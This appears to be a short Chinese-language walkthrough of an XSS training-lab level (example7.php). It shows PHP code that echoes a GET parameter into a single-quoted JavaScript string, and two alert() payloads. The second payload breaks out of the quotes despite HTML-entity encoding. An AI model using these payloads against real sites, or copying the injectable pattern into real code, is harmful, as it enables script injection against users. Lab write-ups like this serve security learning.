

# xss7

进入example7.php

查看源码
```javascript
<script> var $a=' <?php echo htmlentitles($_GET["name"]); ?>'
```
payload1
```javascript
</script><script>alert('hello xss')</script><script>
```
这里跟第六题差不多一样
不过使用了htmlentitles这个函数把字符进行html实体编码
如果传入payload1
传到后台后执行的是这样的代码

```javascript
<script>
	var $a= '&lt;/script&gt;&lt;script&gt;alert('hello')&lt;/script&gt;&lt;script&gt;';
</script>
```
正反尖括号都被转码成了html的实体编码
不过**'**还有并没有被转码然后这里变量$a使用的是单引号而不是双引号所以可以像第六题那样
的payload2进行绕过

payload2
```javascript
';alert('hello xss');'
```

过关e。e~